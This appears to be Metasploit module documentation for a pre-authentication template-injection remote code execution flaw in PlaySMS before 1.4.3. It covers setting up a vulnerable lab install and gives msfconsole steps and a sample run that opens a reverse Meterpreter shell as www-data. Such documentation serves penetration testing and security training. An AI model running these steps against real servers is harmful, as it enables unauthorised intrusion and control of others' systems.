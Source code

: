 ## Vulnerable Application

### Description

This module exploits a preauth Server-Side Template Injection vulnerability that leads to remote code execution in PlaySMS before version 1.4.3. This issue is caused by double processing a server-side template with a custom PHP template system called 'TPL' which is used in the PlaySMS template engine at `src/Playsms/Tpl.php:_compile()`. The vulnerability is triggered when an attacker supplied username with a malicious payload is submitted. This malicious payload is then stored in a TPL template which when rendered a second time, results in code execution.

The TPL (https://github.com/antonraharja/tpl) template language is vulnerable to PHP code injection.

### Setup

Available at [Source Forge](https://sourceforge.net/projects/playsms/files/playsms/Version%201.4.2/playsms-1.4.2.tar.gz/download).

 1. Download the application
 2. Extract : `tar -xvf playsms-1.4.2.tar.gz`
 3. Move in to the web directory : `mv playsms-1.4.2/web/* /var/www/html/`
 4. Make the config file: `cp /var/www/html/config-dist.php /var/www/html/config.php`
 5. Change the owner : `chown -R www-data:www-data /var/www/html/`
 6. Set DB creds in the config.php file and dump playsms-1.4.2/db/playsms.sql in to your playsms database
 7. Now visit : http://localhost/

## Verification Steps

 1. Install the application (Tested on HactheBox Frolic Machine)
 2. Start msfconsole
 3. Do: `use exploit/unix/webapp/playsms_pre_auth_rce`
 4. Do: `set rport <port>`
 5. Do: `set rhost <ip>`
 6. Do: `set targeturi /playsms`
 7. Do: `check`

```
[*] 10.10.10.111:9999 - The target appears to be vulnerable.
```

 10. Do: `set lport <port>`
 11. Do: `set lhost <ip>`
 12. Do: `run`
 13. You should get a shell.

## Scenarios

### Playsms on Ubuntu Linux

```
msf5 exploit(unix/webapp/playsms_pre_auth_rce) > options

Module options (exploit/unix/webapp/playsms_pre_auth_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base playsms directory path
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PlaySMS Before 1.4.3


msf5 exploit(unix/webapp/playsms_pre_auth_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(unix/webapp/playsms_pre_auth_rce) > set lhost 192.168.1.3
lhost => 192.168.1.3
msf5 exploit(unix/webapp/playsms_pre_auth_rce) > run

[*] Started reverse TCP handler on 192.168.1.3:4444
[+] X-CSRF-Token for login : c62b21bdb395dca92c18446217e31d7f
[*] Trying to Send Payload in Username Field ......
[+] Payload successfully sent
[*] Cookies here : PHPSESSID=p0jmmf1kpqfhpbpcgpbcfbhpv3;
[*] Sending stage (38288 bytes) to 192.168.1.3
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.3:51800) at 2020-04-02 17:30:53 -0500

meterpreter > getuid
Server username: www-data (1000)
meterpreter > sysinfo
Computer    : ec31d13f3520
OS          : Linux ec31d13f3520 4.19.76-linuxkit #1 SMP Thu Oct 17 19:31:58 UTC 2019 x86_64
Meterpreter : php/linux
meterpreter >
```
